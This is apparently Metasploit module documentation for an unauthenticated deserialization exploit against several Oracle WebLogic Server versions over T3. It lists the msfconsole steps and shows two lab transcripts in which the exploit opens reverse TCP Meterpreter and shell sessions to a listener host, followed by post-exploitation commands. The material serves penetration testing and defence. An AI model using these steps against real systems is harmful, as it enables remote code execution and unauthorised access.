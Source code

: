 ## Description

Oracle Weblogic Server v10.3.6.0, v12.1.3.0, v12.2.1.2, and v12.2.1.3 are vulnerable to a deserialization vulnerable, which can be used to execute code on vulnerable systems. An unauthenticated user with network access via T3 could exploit the vulnerability. This module has been tested against Oracle Weblogic Server v10.3.6.0 running on Windows10 x64 using JDK v7u17.

## Vulnerable Application

[Oracle Weblogic Server v10.3.6.0](http://download.oracle.com/otn/nt/middleware/11g/wls/1036/wls1036_generic.jar), v12.1.3.0, v12.2.1.2, and v12.2.1.3.

## Verification Steps

1. `./msfconsole -q`
2. `use exploit/multi/misc/weblogic_deserialize`
3. `set rhosts <rhost>`
4. `set srvhost <srvhos>t`
5. `set srvport <srvport>`
6. `run`

## Scenarios

### Tested on Windows 10 x64 running Oracle Weblogic Server 10.3.6.0 on JDK v7u17

```
msf5 exploit(multi/misc/weblogic_deserialize) > set rhosts 172.22.222.175
rhosts => 172.22.222.175
msf5 exploit(multi/misc/weblogic_deserialize) > set srvhost 172.22.222.121
srvhost => 172.22.222.121
msf5 exploit(multi/misc/weblogic_deserialize) > set srvport 8888
srvport => 8888
msf5 exploit(multi/misc/weblogic_deserialize) > run
[*] Exploit running as background job 0.
msf5 exploit(multi/misc/weblogic_deserialize) > 
[*] Started reverse TCP handler on 172.22.222.121:4444 
[*] Sending stage (179779 bytes) to 172.22.222.175
[*] Meterpreter session 1 opened (172.22.222.121:4444 -> 172.22.222.175:49908) at 2018-08-08 17:53:07 -0500
sessions -i 1
[*] Starting interaction with 1...

meterpreter > sysinfo
Computer        : _
OS              : Windows 10 (Build 17134).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > 
```

### Tested on Ubuntu 14.04 LTS x64 running Oracle Weblogic Server 10.3.6.0 on Sun SDK 1.6.0_29
```
msf5 > use exploit/windows/misc/weblogic_deserialize
msf5 exploit(windows/misc/weblogic_deserialize) > set rhosts 172.22.222.205
rhosts => 172.22.222.205
msf5 exploit(windows/misc/weblogic_deserialize) > set lhost 172.22.222.197
lhost => 172.22.222.197
msf5 exploit(windows/misc/weblogic_deserialize) > set srvhost 172.22.222.197 
srvhost => 172.22.222.197
msf5 exploit(windows/misc/weblogic_deserialize) > set verbose true
verbose => true
msf5 exploit(windows/misc/weblogic_deserialize) > check

[+] 172.22.222.205:7001 - Detected Oracle WebLogic Server Version: 10.3.6.0
[*] 172.22.222.205:7001 The target appears to be vulnerable.
msf5 exploit(windows/misc/weblogic_deserialize) > run
[*] Exploit running as background job 2.
msf5 exploit(windows/misc/weblogic_deserialize) > 
[*] Started reverse TCP handler on 172.22.222.197:4444 
[*] 172.22.222.205:7001 - Sending handshake...
[*] 172.22.222.205:7001 - Sending client object payload...
[*] 172.22.222.205:7001 - Comparing host: 172.22.222.205
[*] 172.22.222.205:7001 - Sending payload to client: 172.22.222.205
[*] 172.22.222.205:7001 - Comparing host: 172.22.222.205
[*] Command shell session 1 opened (172.22.222.197:4444 -> 172.22.222.205:35904) at 2018-08-28 10:59:20 -0500
[*] 172.22.222.205:7001 - Server stopped.
msf5 exploit(windows/misc/weblogic_deserialize) > 
sessions -i 1
[*] Starting interaction with 1...

whoami
msfdev
uname -a
Linux ubuntu 4.4.0-134-generic #160~14.04.1-Ubuntu SMP Fri Aug 17 11:07:07 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
```
